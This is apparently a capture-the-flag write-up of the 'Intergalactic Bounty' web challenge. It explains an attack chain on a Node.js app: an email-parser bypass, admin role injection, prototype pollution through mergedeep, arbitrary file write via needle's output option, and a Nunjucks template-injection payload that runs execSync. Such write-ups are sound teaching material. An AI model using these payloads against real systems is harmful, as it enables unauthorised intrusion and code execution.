







## Web - Intergalactic Bounty

> The Galactic Bounty Exchange—a system where hunters and hunted collide, controlled by the ruthless Frontier Board. Hidden within its encrypted core lies a prize of untold power: the bounty for the Starry Spur.
To ignite rebellion, Jack Colt must infiltrate this fortress of contracts, manipulate its algorithms, and claim the Spur’s bounty for himself. A race against time, a battle against the galaxy’s deadliest system—Jack’s mission will decide the fate of the Frontier.

## Analaysis

We are given nodejs application and email service with address of `test@email.htb`.  The setup were pretty much like [Armaxis](https://blog.lordrukie.com/p/htb-ctf-university-2024-armaxis/).

Based on the flag location in the source code, we need to obtain at least arbitrary file read or command execution in the application.

```Dockerfile
COPY flag.txt /
```

### Bot
Bot was found within the source code. It means there's probably a client side vulnerability such as CSRF, XSS, and others.

using bot is the intended way to solve the challenge, however i'm using unintended solution to solve the problem

### Email Discrepancy & Privilege Escalation
In order to log in to the application, users need to register with the `interstellar.htb` domain. However, our accessible email domain is `email.htb`.

```js
const emailAddresses = require('email-addresses');

const registerAPI = async (req, res) => {
  const { email, password, role = "guest" } = req.body;
  const emailDomain = emailAddresses.parseOneAddress(email)?.domain;

  if (!emailDomain || emailDomain !== 'interstellar.htb') {
    return res.status(200).json({ message: 'Registration is not allowed for this email domain' });
  }

  try {
    await User.createUser(email, password, role);
    return res.json({ message: "User registered. Verification email sent.", status: 201 });
  } catch (err) {
    return res.status(500).json({ message: err.message, status: 500 });
  }
};
```

If email whitelist can be bypassed, we can register as `admin` due to parameter pollution in request parser.

```js
const { email, password, role = "guest" } = req.body;
```

privilege escalation can be achieved using following request data upon registration.

```json
{
    "username": "x",
    "password": "x",
    "role": "admin"
}
```

in order to beat the email parser, i try to read the [documentation](https://www.npmjs.com/package/email-addresses) and [source code](https://github.com/jackbearheart/email-addresses/blob/master/test/email-addresses.js#L10) of `email-addresses`, which i found several test cases of `parseOneAddress` successfull email format.

one of the interesting format is `"Françoise Lefèvre"@example.com`.

After playing with the format for a while, `"test@email.htb test"@interstellar.htb` was working perfectly!

This is because email parsing disrepancy between `email-address` and `nodemailer`. nodemailer will convert the email to following format, which will interpret `test@interstellar.htb` as a alias, and set `test@email.htb` as the email address.



Code can be retrieved in the email


### Prototype Pollution

in one of the admin feature, it uses `mergedeep` function. Usually, function related with `merge` in javascript environment is vulnerable to prototype pollution.

```js
const mergedeep = require("@christopy/mergedeep");

const editBountiesAPI = async (req, res) => {
  const { ...bountyData } = req.body;
  try {
    const data = await BountyModel.findByPk(req.params.id, {
      attributes: [
        "target_name",
        "target_aliases",
        "target_species",
        "last_known_location",
        "galaxy",
        "star_system",
        "planet",
        "coordinates",
        "reward_credits",
        "reward_items",
        "issuer_name",
        "issuer_faction",
        "risk_level",
        "required_equipment",
        "posted_at",
        "status",
        "image",
        "description",
        "crimes",
        "id",
      ],
    });

    if (!data) {
      return res.status(404).json({ message: "Bounty not found" });
    }

    const updated = mergedeep(data.toJSON(), bountyData);

    await data.update(updated);

    return res.json(updated);
  } catch (err) {
    console.log(err);
    return res.status(500).json({ message: "Error fetching data" });
  }
};
```

if we take a look at the [source code](https://github.com/ChristoPy/mergedeep/blob/master/src/index.js), it was clear that the library doesn't prevent for prototype pollution and assign value directly into the target object.

simple payload such as `{"__proto__": {"test":"yey"}}` can be used to trigger the vulnerability.


### Finding Gadget

Usually, prototype pollution in CTF are combined with `child_process` function such as `fork`, `execSync`, `exec`, etc. However there's none of them in the current application.

In order to find gadget to obtain either arbitrary file read or command execution, i decided to explore all library used in the application.

One of the interesting library is `needle`

```json
{
  "dependencies": {
    "@christopy/mergedeep": "^1.0.4",
    "lodash": "^4.17.21",
    "needle": "^3.3.1"
  }
}

```

The library is used to fetch data from web service. The usage is definitely eye catching because most of nodejs application uses `axios` to fetch pages from internet. So there must be something in the `needle` library.

```js
const needle = require("needle");

const fetchURL = async (url) => {
  if (!url.startsWith("http://") && !url.startsWith("https://")) {
    throw new Error("Invalid URL: URL must start with http or https");
  }

  const options = {
    compressed: true,
    follow_max: 0,
  };

  return new Promise((resolve, reject) => {
    needle.get(url, options, (err, resp, body) => {
      if (err) {
        return reject(new Error("Error fetching the URL: " + err.message));
      }
      resolve(body);
    });
  });
};

```

After reviewing the [documentation](https://github.com/tomas/needle/tree/master) and [source code](https://github.com/tomas/needle/blob/master/lib/needle.js) of needle, i found that `output` options is being used to save fetched content into system files.



```js
if (config.output && resp.statusCode == 200) {

    // for some reason, simply piping resp to the writable stream doesn't
    // work all the time (stream gets cut in the middle with no warning).
    // so we'll manually need to do the readable/write(chunk) trick.
    var file = fs.createWriteStream(config.output);
    file.on('error', had_error);

    out.on('end', function() {
    if (file.writable) file.end();
    });

    file.on('close', function() {
    delete out.file;
    })

    out.on('readable', function() {
    var chunk;
    while ((chunk = this.read()) !== null) {
        if (file.writable) file.write(chunk);

        // if callback was requested, also push it to resp.body
        if (resp.body) resp.body.push(chunk);
    }
    })

    out.file = file;
}
```

so if we managed to pollute `output` options and call the `fetchURL` function, then we can perform arbitrary file write on the system.

This can be performed by calling `/api/transmit` using admin credentials after polluting the `output` options.

after obtaining arbitrary file write, we can try to 
- Overwrite javascript files (need restart)
- Overwrite template files (without restart)

### DOS
Additional bug, if we try to provide invalid url within `fetchURL` function, aparently the server will shut down.

Because the application using `supervisord` with `autorestart=true`, then this vulnerability can be used to restart the server after overwriting javascript files.

```conf
[program:node]
directory=/app
command=node index.js
autostart=true
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

## Exploitation

in order to perform full attack, we need to:

- bypass email protection & privilege escalation
  
- perform prototype pollution to pollute `output` options
  
- overwrite either javascript or html files
  

  here i used following payload, stored in `index.html` files. The payload are obtained from [Hacktricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md#nunjucks-nodejs-)

  ```js
    {{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag.txt')")()}}
  ```
- trigger the updated code to gain code execution
  


perform the same step for remote, and flag can be obtained :D

Flag: HTB{f1nd1ng_0d4y_15_345Y_r1gh7!!?_970db3ce5022cd532606efeca829916c}